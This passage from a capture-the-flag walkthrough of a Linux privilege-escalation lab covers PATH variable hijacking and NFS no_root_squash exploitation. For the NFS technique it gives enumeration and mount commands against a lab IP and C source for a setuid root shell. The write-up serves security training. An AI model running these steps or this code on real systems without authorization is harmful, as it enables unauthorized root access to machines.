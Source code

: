 Before we can now run ./test, we need to export the path via `export PATH=/home/murdoch:$PATH`
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/p0fm13db6kdpgtw6bmfm.png)
 
Finally, we can run the ./test command. We've successfully exploited our PATH vulnerability!
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/qbu26k07cco0phvl7nzg.png)

**<u>What is the content of the flag6.txt file?</u>**
We found the flag in the previous question after running the `./test` command.
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/qbu26k07cco0phvl7nzg.png)
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/a01fsw7r7vfe6w4zmkpb.png)
   
## Task 11: Privilege Escalation NFS  
**<u>How many mountable shares can you identify on the target system?</u>**
Terminate the previous machine and log into Karen's system. To enumerate mountable shares from our attacking machine we need to use the `showmount -e <YOUR MACHINE IP>` command.

![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/h2tvavixmuv47cd4mfqf.png)

From there on we can count three mountable shares.
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/som8lnib7a0pby40jijq.png)

**<u>How many shares have the "no_root_squash" option enabled?</u>**
To see this, run the command `cat /etc/exports`. We can count three no_root_squash options.
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/gaiz9y5ofszmiahbvi3a.png)
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/js5x3bl6tbprt9adggbw.png)
 
**<u>Gain a root shell on the target system</u>**
Follow the steps in the task instructions. It's exactly the same. So in a terminal, not the one you are logged in as Karen, do this:

`mkdir /tmp/sharedfolder`
`sudo mount -o rw 10.10.114.12:/home/ubuntu/sharedfolder /tmp/sharedfolder`

![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/4fta80rgqni3hoy8cn5z.png)

`nano`

```
//Enter into nano and save as nfs.c
#include <stdio.h>
#include <stdlib.h>

int main()
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}
```
![Linux PrivEsc](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/43x5sxnfn17ee9gq2dui.png)
 